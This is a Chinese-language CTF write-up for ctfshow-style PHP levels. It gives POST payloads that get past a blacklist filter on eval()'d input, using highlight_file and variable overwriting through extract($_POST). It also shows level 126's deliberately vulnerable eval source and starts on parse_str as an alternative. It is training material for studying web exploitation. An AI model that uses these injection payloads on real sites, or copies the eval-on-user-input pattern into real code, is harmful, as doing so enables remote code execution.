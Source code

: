 在上一题的基础了过滤了flag和几个打印的函数

但是**highlight_file**可以用

flag在***$c***里面过滤了，但是我可以GET或POST传

POST

`CTF_SHOW=flag.php&CTF[SHOW.COM=&fun=highlight_file($_POST[CTF_SHOW])`

不能直接

`CTF_SHOW=flag.php&CTF[SHOW.COM=&fun=highlight_file($CTF_SHOW)`

这样***fun***还是想当于有flag

还有一种方法，变量覆盖！！！！！

**extract($_POST)**

在challenge中遇到过，这种方法可以覆盖已有的变量值(当然前提还是这句代码可以被执行)

也就是构造payload

POST

`CTF_SHOW=1&CTF[SHOW.COM=2&fun=extract($_POST)&fl0g=flag_give_me`

#### 126

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}

```

把前两题的payload都禁用了，要想新的办法

找到一个代替**extract**的

<font color='purple'>**parse_str**</font>

 将字符串解析成多个变量

PS:突然发现之前有一题见过

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";

// 推荐用法
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz

// 不建议这么用
parse_str($str);
echo $first;  // value
echo $arr[0]; // foo bar
```
